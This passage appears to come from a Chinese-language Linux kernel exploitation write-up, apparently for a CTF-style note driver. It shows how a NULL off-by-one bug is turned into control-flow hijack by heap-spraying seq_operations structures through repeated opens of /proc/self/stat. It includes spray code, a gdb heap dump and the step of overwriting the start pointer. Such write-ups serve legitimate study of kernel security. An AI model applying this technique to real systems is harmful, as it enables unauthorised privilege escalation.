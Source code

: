 有了内核的地址，和一个可控的`subprocess_info`结构，就可以修改结构体指针达到劫持控制流的目的。

但是有一个问题，在上述获得`subprocess_info`的过程中，发现该结构体的allocate和free是在同一个代码路径中的，也就意味着没有机会泄漏后再去修改`cleanup`指针。

并且，由于上述对kmalloc-128的操作，使得其堆分布被一定程度破坏，想要第二次获取`subprocess_info`直接修改cleanup会造成crash。

此时，可以考虑利用NULL-Off-By-One控制其他cache的内核结构体，如kmalloc-32的`seq_operations`。

```c
struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
};
```

由于`/proc`文件系统每次读取的数据只能是1个page，如果超过则需要多次读取，因此出现了`seq_file`，对文件的操作主要定义在`seq_operations`中，该结构体在open `/proc`系统文件时会创建，因此可以和`msgsnd`类似的方式堆喷，相同的利用方式来获得一个可控的`seq_operations`，并且只要`/proc`文件fd没有close，该结构体不会被释放，其函数指针都可以在用户态对fd操作实现执行。

堆喷获取可控的`seq_operations`：

```
	// heap spray seq_operations
	int sfd;
	for(int i=0; i<0x85; i++)
	{
		sfd = open("/proc/self/stat", 0);
	}
	puts("[+] Heap Spray seq_operations done.");

	note_alloc(0x20);
	memset(buffer, 'B', 0x20);
	note_write(buffer, 0x20);
	note_free();
```

此时堆分布：

```assembly
gdb-peda$ x/10gx 0xffff9f49cde46400
0xffff9f49cde46400:	0xffff9f49cde46420	0x4242424242424242
0xffff9f49cde46410:	0x4242424242424242	0x4242424242424242
0xffff9f49cde46420:	0xffff9f49cde46400	0x0000000000000000
0xffff9f49cde46430:	0x0000000000000000	0x0000000000000000
0xffff9f49cde46440:	0xffff9f49cde46460	0x0000000000000000
```

同样的，再连续分配三次可以得到可控的`seq_operations`，不同的是这里重复分配的堆块是A。

```
	note_alloc(0x20);						// A
	sfd = open("/proc/self/stat", 0);		// padding
	sfd = open("/proc/self/stat", 0);		// target same address as A
```

再通过write修改target的`seq_operetion`结构指针`start`，通过read对应的fd即可触发执行`start`。
